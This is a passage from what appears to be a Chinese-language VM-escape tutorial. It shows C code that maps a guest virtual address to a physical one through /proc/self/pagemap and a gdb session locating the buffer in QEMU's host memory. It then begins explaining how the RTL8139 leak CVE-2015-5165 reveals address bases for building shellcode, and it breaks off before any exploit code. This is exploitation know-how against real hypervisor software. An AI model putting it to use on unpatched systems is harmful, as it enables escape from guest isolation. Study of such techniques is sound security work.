 ```
    uint64_t ptr_mem;

    fd = open("/proc/self/pagemap", O_RDONLY);
    if (fd < 0) {
        perror("open");
        exit(1);
    }

    ptr = malloc(256);
    strcpy(ptr, "Where am I?");
    printf("%s\n", ptr);
    ptr_mem = gva_to_gpa(ptr);
    printf("Your physical address is at 0x%"PRIx64"\n", ptr_mem);

    getchar();
    return 0;
}
```

静态编译好程序之后将其上传到 QEMU 虚拟机中以 `root` 身份执行，打印出物理地址为 `0x73b17b20`
![](https://res.cloudinary.com/dozyfkbg3/image/upload/v1618050992/VMescape/image_29.png)
在主机将gdb附加到QEMU进程，我们可以看到缓冲区位于为guest虚拟机分配的物理地址空间内。 更准确地说，输出的guest物理地址地址实际上是与**guest物理内存基址**的偏移量。

```
✗ sudo gdb qemu-system-x86_64 38140
(gdb) info proc mappings
process 38140
Mapped address spaces:

          Start Addr           End Addr       Size     Offset objfile
      0x556857048000     0x55685791d000   0x8d5000        0x0 /usr/bin/qemu-system-x86_64
      0x556857b1c000     0x556857ce8000   0x1cc000   0x8d4000 /usr/bin/qemu-system-x86_64
      0x556857ce8000     0x556857d67000    0x7f000   0xaa0000 /usr/bin/qemu-system-x86_64
      0x556857d67000     0x5568581ca000   0x463000        0x0
      0x556859c27000     0x55685b038000  0x1411000        0x0 [heap]
                ...                 ...        ...        ...
      **0x7f72afe00000** **** **0x7f732fe00000** **** **0x80000000**        0x0 [2GB RAM]
                ...                 ...        ...        ...
(gdb) x/s 0x7f72afe00000+0x73b17b20
0x7f7323917b20: "Where am I?"
```

## 3 Memory Leak Exploitation

接下来，我们将利用CVE-2015-5165（一个会影响RTL8139网卡设备仿真器的内存泄漏漏洞）来重建QEMU的内存布局。 更准确地说，我们需要泄漏

1. .text段的基地址，以构建我们的shellcode
2. 为Guest分配的物理内存的基地址，以便能够获得 一些虚拟结构的地址

### 3.1  The vulnerable Code

REALTEK网卡支持两种 接收/发送 操作模式：C模式和C +模式。 当将网卡设置为使用C +时，网卡设备仿真器会错误地计算IP数据包数据的长度，最终发送的数据量会超出数据包中实际可用的数据量。

